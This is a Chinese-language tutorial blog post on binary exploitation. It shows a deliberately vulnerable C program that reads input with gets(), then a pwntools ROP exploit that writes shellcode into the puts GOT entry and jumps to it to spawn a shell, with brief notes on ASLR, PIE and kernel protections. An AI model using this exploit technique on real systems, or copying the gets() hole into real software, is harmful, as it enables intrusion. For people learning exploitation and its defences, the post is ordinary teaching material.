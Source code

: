 ```yaml
---
title: 'ROP 和 Shellcode'
date: '2023-08-29'
lastmod: '2023-08-29'
tags: ['PWN', 'Stack']
draft: false
summary: '通过控制 `gets` 的写入位置，把 shellcode 放在预设的地方。相比以前不确定的 shellcode 位置，这种方法让我们对 shellcode 的控制更加精确可靠。'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

## 0x01 源码

LINK

```c:source.c
#include <stdio.h>

void vuln() {
  char buffer[20];

  puts("Give me the input");

  gets(buffer);
}

int main() {
  vuln();

  return 0;
}
```

## 0x02 利用

老规矩。

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()
```

我们可以再次调用 `gets` 函数，不过这次要让 `gets` 函数把接收到的数据写入程序的某个区域，一个既可读又可写的地方，例如 GOT 表就是一个不错的选择。我们只要把 GOT 表里面一个条目的地址传给 `gets` 函数，`gets` 函数就会把我们传进去的 shellcode 写入这个 GOT 条目的位置，这样我们就知道 shellcode 被准确写入了什么位置。最后我们把 `gets` 函数的返回地址设为 shellcode 的地址，这样返回后就可以完美执行我们刚才输入的 shellcode 了。

通过控制 `gets` 的写入位置，我们就可以随心所欲地把 shellcode 放在任意位置，然后执行它。相比以前不确定的 shellcode 位置，这种方法让我们对 shellcode 的控制更加精确可靠。

```python
rop = ROP(elf)

rop.raw('A' * 32)
rop.gets(elf.got['puts'])  # 调用 gets ，写入 puts 的 GOT 条目
rop.raw(elf.got['puts'])   # 现在我们的 shellcode 已经写到那里了，可以从那里继续运行

p.recvline()
p.sendline(rop.chain())

p.sendline(asm(shellcraft.sh()))

p.interactive()
```

### 1x01 最终 Exploit

```python:exp.py
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()

rop = ROP(elf)

rop.raw('A' * 32)
rop.gets(elf.got['puts'])  # 调用 gets ，写入 puts 的 GOT 条目
rop.raw(elf.got['puts'])   # 现在我们的 shellcode 已经写到那里了，可以从那里继续运行

p.recvline()
p.sendline(rop.chain())

p.sendline(asm(shellcraft.sh()))

p.interactive()
```

## 0x03 64-bit

自行尝试 :D

LINK

## 0x04 ASLR

这种方法不用担心 ASLR 的问题，因为我们既没有使用栈，也没有直接调用 libc 函数，只是使用了 ROP。

真正的问题是如果启用了 PIE，由于不知道 PLT 的位置，就无法调用 `gets`，也不知道 GOT 表的位置，无法写入。

## 0x05 潜在问题

由于没有 NX 保护，GOT 表默认的权限通常是可执行的。如果你使用较新版本的内核，例如 `5.9.0`，默认会移除可执行权限。

因此，如果你利用失败，可以使用 `uname -r` 查看内核版本，检查是否 `≥5.9.0`，如果是，那你就需要找到另一个 RWX 权限的区域放置 shellcode（如果这个区域存在）。

不同的内核和保护需要针对的调整利用技术。

